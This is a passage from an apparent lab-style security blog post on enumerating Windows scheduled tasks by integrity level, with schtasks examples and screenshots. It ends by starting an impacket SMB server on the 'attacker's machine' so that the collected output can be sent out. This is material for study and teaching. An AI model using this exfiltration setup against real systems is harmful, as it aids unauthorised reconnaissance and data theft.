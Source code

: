 Still, the only way that we could find these scheduled tasks named "Custom Task" is by running a console as administrator or by using the Task Scheduler application and this is because we **CREATED** these tasks to run as `NT AUTHORITY\SYSTEM`. Therefore the only way to enumerate these tasks is by using the Administrator user or a High Integrity Level process. However, we did create a schedule using the GUI with our current user although by default it runs with `High Integrity Level` because otherwise, we wouldn't be able to create scheduled tasks that are configured to run `High Integrity Level`,  i.e, the `Run with highest privileges` setting. We can see this integrity level from the token with Process Hacker:

{{< image src="/images/posts/task-scheduler-mmc.png" caption="Task Scheduler MMC " src_s="/images/posts/task-scheduler-mmc.png" src_l="/images/posts/task-scheduler-mmc.png" >}}

The problem is in the fact that we did the following parameter `/ru "NT AUTHORITY\SYSTEM"`:

```powershell
C:\Windows\system32>schtasks /create /sc minute /mo 5 /tn "Custom Task 2" /tr "powershell.exe /c C:\Schedule\helloworld.ps1" /ru "NT AUTHORITY\SYSTEM"
SUCCESS: The scheduled task "Custom Task 2" has successfully been created.

C:\Windows\system32>schtasks /create /sc minute /mo 5 /tn "Custom Task 3" /tr "powershell.exe /c C:\Schedule\helloworld.ps1" /ru "desktop-bn\user"
SUCCESS: The scheduled task "Custom Task 3" has successfully been created.

PS C:\Windows\system32> schtasks /create /sc minute /mo 5 /tn "Custom Task 4" /tr "powershell.exe /c C:\Schedule\helloworld.ps1" /ru "desktop-bn\user" /rl Highest
SUCCESS: The scheduled task "Custom Task 4" has successfully been created.
```

> Note: The `/RL Highest` option is the setting of `Run with highest privileges`. In order to use this option you must be running from an administrator command line.

As we can see running Autoruns GUI (as a normal user) with our current user:

{{< image src="/images/posts/task-scheduler-autorun-fix.png" caption="Task Scheduler AutoRun Fix " src_s="/images/posts/task-scheduler-autorun-fix.png" src_l="/images/posts/task-scheduler-autorun-fix.png" >}}

Now we know that we **SHOULD NOT** create tasks that run as `NT AUTHORITY\SYSTEM`. I'm gonna disable all the tasks that we don't need:

{{< image src="/images/posts/task-scheduler-disabled-task.png" caption="Task Scheduler Disabled Tasks " src_s="/images/posts/task-scheduler-disabled-task.png" src_l="/images/posts/task-scheduler-disabled-task.png" >}}

If we execute all the previous commands we should be able to enumerate the scheduled tasks from a Medium Integrity Level command line:

```powershell
PS C:\Users\user> whoami /groups | findstr /i 'medium'
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192
```

What I would do is send those outputs to my attacker's machine. I'm gonna start an SMB server on my attacker host:

```shell
❯ sudo impacket-smbserver share . -smb2support -username low -password 'p@ssw0rd'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
